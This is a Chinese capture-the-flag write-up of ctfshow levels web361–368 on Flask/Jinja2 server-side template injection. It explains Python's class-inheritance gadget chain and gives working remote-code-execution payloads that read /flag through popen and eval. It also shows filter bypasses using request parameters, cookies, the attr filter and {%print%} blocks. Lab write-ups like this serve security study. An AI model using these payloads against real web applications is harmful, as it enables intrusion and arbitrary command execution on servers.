

ssti服务器端模板注入介绍https://xz.aliyun.com/news/3311?time__1311=eqUh0KGIwDCD%2FD0l3ExiKi%3DGC9vuKr4pD&u_atoken=71799fd2f019f2db2e6695815a1e8fe8&u_asig=1a0c399d17412599679115146e00dd
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 __class__ 类的一个内置属性，表示实例对象的类。 __base__ 类型对象的直接基类 __bases__ 类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__ __mro__ 此属性是由类组成的元组，在方法解析期间会基于它来查找基类。 __subclasses__() 返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order. __init__ 初始化类，返回的类型是function __globals__ 使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。 __dic__ 类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里 __getattribute__() 实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。 __getitem__() 调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b') __builtins__ 内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。 __import__ 动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()] __str__() 返回描写这个对象的字符串，可以理解成就是打印出来。 url_for flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。 get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。 lipsum flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}} current_app 应用上下文，一个全局变量。 request 可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read() request.args.x1 get传参 request.values.x1 所有参数 request.cookies cookies参数 request.headers 请求头参数 request.form.x1 post传参 (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data) request.data post传参 (Content-Type:a/b) request.json post传json (Content-Type: application/json) config 当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }} g {{g}}得到<flask.g of 'flask_ssti'>
过滤器
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 int()：将值转换为int类型； float()：将值转换为float类型； lower()：将字符串转换为小写； upper()：将字符串转换为大写； title()：把值中的每个单词的首字母都转成大写； capitalize()：把变量值的首字母转成大写，其余字母转小写； trim()：截取字符串前面和后面的空白字符； wordcount()：计算一个长字符串中单词的个数； reverse()：字符串反转； replace(value,old,new)： 替换将old替换为new的字符串； truncate(value,length=255,killwords=False)：截取length长度的字符串； striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格； escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。 safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}； list()：将变量列成列表； string()：将变量转换成字符串； join()：将一个序列中的参数值拼接成字符串。示例看上面payload； abs()：返回一个数值的绝对值； first()：返回一个序列的第一个元素； last()：返回一个序列的最后一个元素； format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo! length()：返回一个序列或者字典的长度； sum()：返回列表内数值的和； sort()：返回排序后的列表； default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。 length()返回字符串的长度，别名是count
web361
1 ?name={{"".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('tac /flag').read()}}
依靠基类->子类->危险函数的方式来利用ssti
万物皆对象，而class 用于返回该对象所属的类，比如某个字符串，他的对象为字符串对象，而其所属的类为<class 'str'>。
以元组的形式返回一个类所直接继承的类。
以字符串返回一个类所直接继承的类。
返回解析方法调用的顺序。
获取类的所有子类。
所有自带带类都包含init 方法，便于利用他当跳板来调用globals 。
function.__globals__，用于获取function所处空间下可使用的module、方法以及所有变量。

使用os._wrap_close
通过 class 跳转到类
class -> mro -> subclasses -> init -> globals是一种常见的利用链
1 "".__class__ # 返回 <class 'str'>
__class__，攻击者可以从一个已知的对象（如空字符串 "" 或数字 0）跳转到它的类，进而利用类的属性和方法（如 __mro__、__subclasses__ 等）来进一步探索和利用。
通过 mro 获取继承链 跳转到 object 类
通过 __mro__，攻击者可以访问 object 类，然后通过 __subclasses__ 获取所有已加载的子类。例如：
1 "".__class__.__mro__[1].__subclasses__() # 返回 object 的所有子类
__subclasses__ 的作用是让攻击者能够遍历所有已加载的类，寻找可以利用的类（如包含危险函数的类）。
1 2 3 注意： "".__class__.__mro__[1] # 返回 <class 'object'> "".__class__.__mro__[0] # 返回 <class 'str'>
__subclasses__ 的作用是让攻击者能够遍历所有已加载的类，寻找可以利用的类（如包含危险函数的类）。
通过 __subclasses__，攻击者可以找到一个可以利用的子类，然后通过 __init__ 访问该类的初始化方法。例如：
1 "".__class__.__mro__[1].__subclasses__()[X].__init__ # 返回某个子类的 __init__ 方法
__init__ 的作用是让攻击者能够访问类的构造函数，从而进一步访问 __globals__。
__init__在调用某函数前会被使用，所以使用__init__是为了给global做铺垫
通过 __init__，攻击者可以访问 __globals__，即函数的全局命名空间。例如：
1 "".__class__.__mro__[1].__subclasses__()[X].__init__.__globals__ # 返回全局命名空间
__globals__ 的作用是让攻击者能够访问模块的全局变量，包括导入的模块（如 os、subprocess 等），从而实现任意代码执行。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 # 1. 从对象跳转到类 "".__class__ # 返回 <class 'str'> # 2. 通过 mro 获取继承链 "".__class__.__mro__ # 返回 (<class 'str'>, <class 'object'>) # 3. 跳转到 object 类 "".__class__.__mro__[1] # 返回 <class 'object'> # 4. 获取所有子类 "".__class__.__mro__[1].__subclasses__() # 返回 object 的所有子类 # 5. 寻找可利用的类（如包含 os 模块的类）X需要具体找 "".__class__.__mro__[1].__subclasses__()[X] # 6. 通过子类执行任意代码 "".__class__.__mro__[1].__subclasses__()[X].__init__.__globals__['os'].system('id')
下面这条链接有具体的原理解释，并且有推荐视频在链接的最下方
https://blog.csdn.net/qq_61955196/article/details/132237648
web362
过滤了某些东西
好像是过滤了某些数字，从120到某些数字，但是这里的过滤有bug
1 ?name={{"".__class__.__mro__[1].__subclasses__()[400-50-50-50-50-50-18].__init__.__globals__['popen']('tac /flag').read()}}
就可以了
或者
1 name={{[].__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /f*").read()')}}
builtins介绍：https://www.cnblogs.com/Ladylittleleaf/p/10240096.html
web363
1 ?name={{[].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
过滤了’'和""
用request来绕过
1 ?a=popen&b=cat /flag&name={{[].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}
web364
利用cookie
1 2 3 4 5 ?name={{x.__init__.__globals__.__builtins__.eval(request.cookies.a)}} 或者 ?name={{url_for.__globals__.__builtins__.eval(request.cookies.a)}} Cookie: a=__import__('os').popen('cat /f*').read()
web365
过滤了中括号
同364
web366
flask过滤器https://blog.csdn.net/xujin0/article/details/96101004
1 2 ?name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}} Cookie:a=__globals__;b=cat /flag
web367
在366的基础上又ban了os
1 2 3 4 ?name=b=os&name={{(lipsum|attr(request.cookies.a)).get(request.values.b).popen(request.cookies.b).read()}} Cookie:a=__globals__;b=cat /flag 或者全换了 ?a=__globals__&b=os&c=cat /flag&name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}
web368
1 2 过滤了{{}}通过{%%}绕过，{%%}是执行函数用的，需要套用print ?a=__globals__&b=os&c=cat /flag&name={%print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()%}